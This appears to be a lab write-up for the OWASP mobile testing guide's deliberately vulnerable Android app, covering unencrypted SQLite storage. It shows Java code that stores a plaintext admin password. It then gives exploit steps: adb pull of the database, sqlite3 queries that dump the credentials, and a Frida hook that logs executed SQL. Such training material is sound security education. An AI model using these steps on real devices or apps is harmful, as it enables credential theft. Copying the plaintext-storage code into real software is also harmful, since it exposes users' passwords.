 ## OMTG-DATAST-001-SQLITE

> app/src/main/java/sg/vp/owasp_mobile/OMTG_Android/OMTG_DATAST_001_SQLite_Not_Encrypted.java

```java
SQLiteDatabase openOrCreateDatabase = openOrCreateDatabase("privateNotSoSecure", 0, null);

openOrCreateDatabase.execSQL("CREATE TABLE IF NOT EXISTS Accounts(Username VARCHAR,Password VARCHAR);");
openOrCreateDatabase.execSQL("INSERT INTO Accounts VALUES('admin','AdminPass');");

openOrCreateDatabase.close();
```

Exploit:

- `adb pull /data/data/sg.vp.owasp_mobile.omtg_android/databases/`

- `$ sqlite3 privateNotSoSecure`

- `sqlite> select * from sqlite_master;`

```
table|android_metadata|android_metadata|3|CREATE TABLE android_metadata (locale TEXT)
table|Accounts|Accounts|4|CREATE TABLE Accounts(Username VARCHAR,Password VARCHAR)
```

- `sqlite> select * from Accounts;`

```
admin|AdminPass
```

oppure

- inietta il seguente script tramite frida per interccettare le query eseguite sul database

```javascript
Java.perform(function () {
	try {
		var SQLiteDatabase = Java.use("android.database.sqlite.SQLiteDatabase")

		SQLiteDatabase.execSQL
			.overload('java.lang.String')
			.implementation = function(sql){
				console.log(sql)

				return this.execSQL(sql)
			}
	}
	catch(e) {
		console.log(e.message);
	}
});
```